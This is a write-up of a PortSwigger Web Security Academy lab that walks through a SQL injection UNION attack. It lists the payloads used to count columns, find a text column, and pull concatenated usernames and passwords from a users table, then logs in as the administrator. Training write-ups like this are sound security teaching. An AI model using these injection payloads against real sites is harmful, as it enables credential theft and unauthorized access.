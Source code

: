 ```yaml
---
title: 'Lab: SQL injection UNION attack, retrieving multiple values in a single column'
tags: [Portswigger Web Security Academy, Web]

---
```


# Lab: SQL injection UNION attack, retrieving multiple values in a single column
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables. 
* Hint:  The database contains a different table called users, with columns called username and password.
To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user.

## Exp
1. Consider how many columns in this table
Payload: `?category=Lifestyle' UNION SELECT NULL,NULL--`
2. Consider the type of each columns
Payload: `?category=Lifestyle' UNION SELECT 1,'a'--`
As the payload above, the 1st column is number-based string, and 2nd column is text-based string.
    :::spoiler Result
    ![](https://i.imgur.com/9V0cYHD.png)
    :::
3. <font color="FF0000">通靈</font>: Find username and password
From the result above, there's just one column is text-based string that we can inject, so we can use concatenate operator `||` to concatenate two strings that we query together.
Payload: `?category=Gifts' UNION SELECT NULL,username||'~'||password FROM users--`
    :::spoiler Result
    ![](https://i.imgur.com/d1zw9eY.png)
    :::
4. Login by username and password that we fetch
    :::spoiler Success Screenshot
    ![](https://i.imgur.com/P9CLaQg.png)
    :::

## Reference